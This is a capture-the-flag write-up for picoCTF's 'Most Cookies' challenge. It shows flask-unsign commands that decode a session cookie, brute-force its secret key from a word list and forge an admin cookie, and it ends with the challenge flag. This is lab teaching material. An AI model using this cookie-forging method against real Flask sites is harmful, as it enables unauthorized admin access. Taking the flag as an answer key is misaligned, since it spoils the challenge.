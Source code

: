 # Most Cookies

###### Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](server.py) http://mercury.picoctf.net:35697/

![site home page](img1.png)

For every text we enter the response is always the same

![error code](img2.png)

So let's go to analyze the [server.py](server.py) file

The site use a flask cookie so we can extract the cookie and try to decode it

```console
$ flask-unsign  -d -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo 
{'very_auth': 'blank'}
```

Going into the [server.py](server.py) we see that if `very_auth == admin` we get the flag.html page, so let's find the key using the [word list](cookie) inside [server.py](server.py), encode the new cookie and send it

```console
$ flask-unsign -u -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHToA.jU3NZ3vRLx_5wWDCeqmR26hpOgo --wordlist cookie 
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'chocolate chip'
$ flask-unsign --sign -c "{'very_auth': 'admin'}" --secret 'chocolate chip' --legacy 
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGHPfQ.kcmz-v9UdTrg9jWUK9ef0fVtTdc
```

![flag](img3.png)

#### **FLAG >>** `picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`
